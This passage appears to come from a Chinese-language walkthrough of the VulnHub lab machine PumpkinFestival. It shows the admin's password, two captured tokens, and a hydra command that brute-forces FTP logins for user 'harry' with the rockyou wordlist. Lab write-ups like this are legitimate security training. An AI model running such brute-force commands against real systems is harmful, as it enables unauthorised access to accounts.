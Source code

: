 通过之前 wpscan 的扫描结果,还存在一个用户 admin ,最开始的网站主页最底下有个 Alohomora! 就是 admin 的密码


登录后发现2处 token

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinFestival/11.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/Mission-Pumpkin/PumpkinFestival/12.png)

```
PumpkinToken : f2e00edc353309b40e1aed18e18ab2c4
PumpkinToken : 06c3eb12ef2389e2752335beccfb2080
```

接下来爆破 FTP,主页中提到过一个用户名 harry
```bash
hydra -l harry -e nsr -P /usr/share/wordlists/rockyou.txt ftp://192.168.141.130
```
